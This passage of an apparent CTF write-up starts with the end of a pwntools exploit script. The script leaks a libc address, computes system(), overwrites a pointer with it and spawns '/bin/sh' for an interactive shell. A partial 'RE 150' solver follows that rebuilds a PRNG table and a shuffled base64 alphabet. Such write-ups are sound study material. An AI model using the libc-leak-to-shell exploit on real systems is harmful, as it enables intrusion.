 ```
print 'read_add: %lx'%read_addr
if mode == 'remote':
   elf = ELF('./libc.so.6')
else:
   elf = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc_addr = read_addr-elf.symbols['read']
system_addr = libc_addr+elf.symbols['system']
print 'libc_addr: %lx'%libc_addr
print 'system_addr: %lx'%system_addr
edit(p64(system_addr))

R.send('/bin/sh\x00')
R.interactive()
```

# RE 150

payload:
```
mapv={}
rev={}
def get_random():
    global mapv
    global rev
    num_list=[]
    num_list2=[]
    ite = 0x1234567
    mul = 0x3B9ACA07
    pus = 0x3B9ACA09
    for i in range(1014):
        num_list2=[]
        for j in range(i+1):
            ite = ((ite*mul+pus)&0xffffffff)%0x989677
            num_list2.append(ite)
        for j in range(i+1,1015):
            num_list2.append(0)
        num_list.append(num_list2)
    s = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
    chr_list = []
    for x in s:
        chr_list.append(x)
    for i in range(0,64):
        ite = ((ite*mul+pus)&0xffffffff)%0x989677
        tmp = chr_list[i]
        chr_list[i] = chr_list[i+ite%(64-i)]
        chr_list[i+ite%(64-i)] = tmp
        mapv[chr_list[i]]=i
        rev[i] = chr_list[i]
    return num_list


Sum = 0x1BEBAAB51
a=get_random()
def max_path_sum(arr):
    global rev
    sel = 0
    seq = []
    for i in range(1,1014):
        a[i][0]+=a[i-1][0]
    for i in range(1,1014):
        for j in range(1,i+1):
            a[i][j] += max(arr[i-1][j],arr[i-1][j-1])
```